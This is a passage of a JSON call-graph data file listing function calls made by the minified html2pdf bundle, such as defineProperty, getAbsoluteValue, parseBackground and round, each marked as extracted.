"calls", "source": "static/js/html2pdf.bundle.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "html2canvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "html2canvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "distance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "copyCSSStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "item"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isPercentage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getRootFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getRootFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateLengthFromValueWithUnit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getRootFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculatePaddingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateContentBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseDocumentSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parsePathForBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createPathFromCurves"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createPathFromCurves"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createPathFromCurves"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createPathFromCurves"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createPathFromCurves"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateBorderBoxPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculatePaddingBoxPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBoundCurves"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurvePoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurvePoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurvePoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurvePoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurvePoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurvePoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurvePoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurvePoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurvePoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parsePadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateBackgroundSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateGradientBackgroundSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateBackgroungPaintingArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateBackgroungPositioningArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateBackgroundPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateBackgroundRepeatPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundClip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundClip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundRepeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundImage"}, 